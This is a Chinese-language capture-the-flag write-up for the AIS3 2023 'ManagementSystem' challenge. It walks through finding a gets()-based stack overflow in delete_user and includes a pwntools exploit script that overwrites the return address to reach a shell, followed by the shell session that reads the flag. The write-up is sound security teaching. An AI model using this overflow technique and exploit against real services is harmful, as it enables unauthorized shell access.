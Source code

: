 # ManagementSystem
## 題目

![image](https://user-images.githubusercontent.com/57281249/239945264-fe5fdba3-c448-4cb5-a992-c3e0e517a49e.png)

## 解題
1. IDA 打開
2. 人真好有給 shell code
![image](https://user-images.githubusercontent.com/57281249/239945579-c0bb2a2a-acb4-44a1-877d-45215b54d609.png)
3. 每個 user 的 function 找一遍後發現 `delete_user` 有用 gets，可以 stack overflow，先讓他跑到 `"Invalid index."` 感覺問題比較少。
![image](https://user-images.githubusercontent.com/57281249/239946309-5ab98d0b-aa5e-4a18-ae77-4e6f49c20f30.png)
4. 找 shell code 的位置
![image](https://user-images.githubusercontent.com/57281249/239947071-567d01ea-a12f-422b-86ce-5e64132ec7b9.png)
5. exploit
```python
import pwn
import re
import sys

r = pwn.remote('chals1.ais3.org', 10003)

print(r.recvrepeat(timeout=1).decode())
r.sendline(b'3')
print(r.recvrepeat(timeout=1).decode())
r.sendline(b'-1' + b'x'*(8*13-2) + int('40131B', 16).to_bytes(3, 'little'))

while True:
    print(r.recvrepeat(timeout=1).decode(), end='')
    print('> ', end='')
    r.send(input().encode())
#    r.send(sys.stdin.buffer.read())
```

```
chummy@hitcon:~/ais3preexam2023$ python3 mansysexp.py                                                                                                                                                    [11/294][+] Opening connection to chals1.ais3.org on port 10003: Done
Choose an option:
1. Add user
2. Show users
3. Delete user
4. Exit
>
Enter the index of the user you want to delete:
Invalid index.
Congratulations! You've successfully executed the secret function.
> ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
> ls /home/chal
Makefile
flag.txt
ms
ms.c
run.sh
> cat /home/chal/flag.txt
FLAG{C0n6r47ul4710n5_0n_cr4ck1n6_7h15_pr09r4m_!!_!!_!}
> exit
>
>
[*] Closed connection to chals1.ais3.org port 10003
Traceback (most recent call last):
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 65, in send_raw
    self.sock.sendall(data)
BrokenPipeError: [Errno 32] Broken pipe

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/chummy/ais3preexam2023/mansysexp.py", line 15, in <module>
    r.send(input().encode())
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 778, in send
    self.send_raw(data)
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 70, in send_raw
    raise EOFError
EOFError
```

## Flag
`FLAG{C0n6r47ul4710n5_0n_cr4ck1n6_7h15_pr09r4m_!!_!!_!}`